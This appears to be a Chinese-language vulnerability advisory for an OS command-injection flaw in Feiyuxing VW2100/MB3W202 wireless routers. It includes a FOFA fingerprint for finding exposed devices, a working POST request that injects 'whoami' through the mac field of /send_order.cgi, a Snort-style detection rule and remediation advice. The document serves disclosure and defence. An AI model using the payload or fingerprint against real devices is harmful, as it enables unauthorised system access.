

# 飞鱼星VW2100  MB3W202 系列无线路由器命令执行

飞鱼星VW2100  MB3W202 系列无线路由器命令执行，攻击者可获取系统权限。

# 影响版本

VW2100 / MB3W202 系列 AC1900 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash=="-842852785"

POC/EXP：

```
POST /send_order.cgi?parameter=del_expmac HTTP/1.1
Host:127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/153.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Length: 31

{"mac":"01';whoami;'"}
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"飞鱼星 VW2100/MB3W202 - /send_order.cgi parameter=del_expmac mac字段命令执行";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/send_order.cgi";
        fast_pattern;
    http.uri;
        content:"parameter=del_expmac";
    http.request_body;
        content:"\"mac\":";
        content:"';"; distance:0;
        content:"whoami"; distance:0; nocase;
        content:"';"; distance:0;
    metadata:
        service http,
        affected_product "飞鱼星 VW2100 / MB3W202 系列无线路由器",
        vulnerability_type "OS Command Injection",
        severity "critical";
    classtype:web-application-attack;
    sid:1000754;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
